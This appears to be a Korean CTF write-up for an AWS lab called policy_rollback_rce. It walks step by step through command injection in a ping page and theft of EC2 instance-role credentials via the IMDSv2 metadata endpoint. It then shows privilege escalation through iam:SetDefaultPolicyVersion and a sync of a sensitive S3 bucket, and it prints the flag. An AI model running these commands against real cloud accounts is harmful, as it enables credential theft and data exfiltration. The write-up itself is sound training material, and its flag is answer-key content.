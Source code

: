 # [policy_rollback_rce] 공격 흐름

1. 웹사이트에 RCE취약점이 발생하는 것을 확인하세요. 단순한 ping test화면 같지만 command injection을 통해 RCE가 발생하게 됩니다.
```bash
; ls
```

2. 인스턴스에서 IMDSv2를 사용하기 때문이 이를 이용하기 위한 토큰을 발급한 후 메타데이터서비스에 접근한다
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

3. 메타데이터서비스를 통해 인스턴스에 할당된 역할을 확인할 수 있다.
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/policy-rollback-rce-ec2-role
```

4. 얻은 자격증명을 자신의 프로필에 등록해준다
```bash
aws configure --profile rce_server
```

5. 해당 역할의 상세 정보를 먼저 확인한다
```bash
aws sts get-caller-identity --profile rce_server
```
- 이를 통해 역할의 arn과 이름정보를 확인할 수 있다.

6. 역할에 연결된 정책을 확인해본다.
```bash
aws iam list-attached-role-policies --role-name <역할 이름> --profile rce_server
```
해당 역할에 연결된 s3manager라는 이름의 정책 이름을 확인할 수 있다.

7. 정책의 버전을 확인해본다.
```bash
aws iam-get-policy --policy-arn <정책의 arn> --profile rce_server
```
정책의 버전이 현재 v1인것을 확인할 수 있다.

8. 현재 정책 버전의 권한을 확인해본다.

```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v1
```
현재 버전에 `iam:SetDefaultPolicyVersion`이 존재하는 것을 확인 -> 다른 버전의 정책으로 교체 가능

9. 다른 버전의 정책을 확인해본다.
```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```
v2의 정책에 s3관련 권한이 모두 할당되있는 것을 확인할 수 있다.

10. v2의 정책으로 교체해준다.
```bash
aws iam set-default-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```

11. S3에 접근이 가능해졌고 기밀데이터를 유출한다.
```bash
aws s3 ls

aws s3 ls s3://policy-rollback-rce-sensitive-data --profile rce_server

aws s3 sync s3://policy-rollback-rce-sensitive-data ./ --profile rce_server
```
flag.txt를 받아올 수 있다.

`flag` : FLAG{pO1iCy_rollb4CK_rcE_5uCCeS5}
